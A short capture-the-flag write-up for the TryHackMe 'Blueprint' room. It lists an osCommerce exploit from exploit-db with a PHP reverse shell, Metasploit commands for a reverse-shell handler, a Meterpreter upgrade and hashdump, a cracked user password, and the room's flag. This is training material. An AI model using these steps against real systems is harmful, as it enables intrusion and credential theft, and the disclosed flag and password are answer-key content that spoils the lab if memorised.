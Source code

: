 # Matheus Jesus 06-04-2020

## Try Hack Me - [Blueprint](https://tryhackme.com/room/blueprint)

## REF https://www.embeddedhacker.com/2019/12/hacking-walkthrough-thm-blueprint/

## IP 10.10.105.165

### 8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)

### exploit-db on OSCommerce CMS - [Here](https://www.exploit-db.com/exploits/44374)

### Exploiting

Download script from exploit-db

Change IP Addresses

Reverse shell on PHP

Run script -> access page to execute script (http://10.10.105.165:8080/oscommerce-2.3.4/catalog/install/includes/configure.php)

### Metasploit

```text
use multi/handler
set payload windows/shell/reverse_tcp
set lhost tun0
set lport 1234
run
```

```text
use multi/manage/shell_to_meterpreter
set SESSION 1
set LPORT 4433
run
```

run hashdump

### Crack Hash

get hash for Lab user
Crack online (because rockyou.txt does not contain the word)
password -> googleplus

### Back to Metasploit

```text
search -f root.txt*
```

Found it on c:\Users\Administrator\Desktop\root.txt.txt

THM{aea1e3ce6fe7f89e10cea833ae009bee}

